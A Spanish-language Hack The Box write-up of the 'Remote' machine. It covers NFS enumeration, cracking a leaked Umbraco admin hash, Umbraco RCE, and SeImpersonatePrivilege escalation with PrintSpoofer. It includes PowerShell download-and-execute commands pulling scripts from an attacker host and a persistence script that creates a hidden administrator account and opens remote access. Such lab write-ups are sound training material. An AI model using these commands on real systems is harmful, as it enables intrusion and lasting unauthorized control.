 ```yaml
---
layout: single
title: Remote - Hack The Box
excerpt: "Hoy nos enfrentamos contra la máquina remote, es una máquina calificada con dificultad fácil. Contiene una mala configuración con la que nos deja acceder a información privilegiada de la máquina. Luego la escalada de privilegios es bastante sencilla."
date: 2022-09-13
classes: wide
header:
  teaser: /assets/images/htb-writeup-remote/remote_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - cxdxnt
tags:  
  - Rce
  - Misconfiguration
  - SeImpersonatePrivilege
  - NFS
---
```


![](/assets/images/htb-writeup-remote/remote_logo.png)

La máquina de hoy consiste en una mala configuración que deja expuesto una carpeta web del sistema. Gracias a dicha carpeta logramos extraer la versión de la aplicación y la contraseña de admin. Después la escalada consiste a través de un SeImpersonatePrivilege que consiste en poder ejecutar cualquier comando como nt authority.


## Enumeración
Comenzamos con un nmap.
```rb
nmap -sCV -p21,80,111,135,139,445,2049,5985,47001,49664,49665,49666,49667,49678,49679,49680 10.10.10.180 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-13 11:41 -03
Nmap scan report for 10.10.10.180
Host is up (0.25s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-09-13T14:42:22
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 218.23 seconds
```

En el escaneo de nmap logramos ver el servicio rpcbind, con la herramienta showmount podemos ver una montura expuesta por una mala configuración del sistema.
```bash
showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```
Con mount procedemos a crear una montura para extraer todos los archivos del directorio a nuestro sistema.

![](/assets/images/htb-writeup-remote/montura.png)

Gracias a la montura identificamos que estamos contra un umbraco, generalmente el servicio web umbraco contiene un archivo llamado umbraco.sdf que ahí contiene contraseñas cifradas, lo buscamos y procedemos a tirarle un strings y buscamos por la palabra admin y encontramos esto. Luego mediante un archivo txt sacamos la versión de umbraco.

![](/assets/images/htb-writeup-remote/hash.png)

Procedemos a crackear la contraseña con john y vemos que la contraseña decifrada es baconandcheese.

## Rce y elevacion de privilegios.
Nos descargamos un exploit para la version 7.12.4 de umbraco y logramos ejecutar comandos.

![](/assets/images/htb-writeup-remote/rce.png)

Ahora que podemos ejecutar cualquier comando procedemos a crearnos una reverse shell.

```bash
python3 49488.py -u 'admin@htb.local' -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/Shell.ps1')"
```

Una vez adentro del sistema, ejecutamos un whoami /priv y vemos que tiene el privilegio SeImpersonatePrivilege.

![](/assets/images/htb-writeup-remote/elevacion-de-privilegios.png)

Accionarle dicho permiso al usuario consiste en un grabe error, ya que gracias al permiso podemos llegar a ejecutar comandos como nt authority. Procedemos a descargarnos PrintSpoofer64.exe lo que el binario hace es que podamos ejecutar comandos.

![](/assets/images/htb-writeup-remote/administrator.png)

Para poder tener  una shell como administrator nos creamos un simple script en powershell que se encarga de crear un usuario y modifica las reglas de windows para poder acceder a dicho usuario mediante evil-winrm, con este simple comando bastaría.

```powershell
.\PrintSpoofer64.exe -i -c "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/persistence.ps1')"
```

```powershell

function persistence($user,$password) {
     net user $user $password /add |out-null #Añade un usuario
     net localgroup administrators $user /add |out-null #Agrega al grupo administrator
     reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v Shadow /t REG_DWORD /d 4 |out-null  
     reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f |out-null
     reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f |out-null # Modifica las reglas de windows para que podamos acceder remotamente.
     net localgroup "Remote Management Users" $user /add |out-null # Lo agrega a un grupo en lo cual nos permite ingresar remotamente.
     echo "Successful";
    exit 0 # Salida exitosa
  }

  
persistence("cxdxnt","pwned123456#!@") #Usuario y contraseña
```
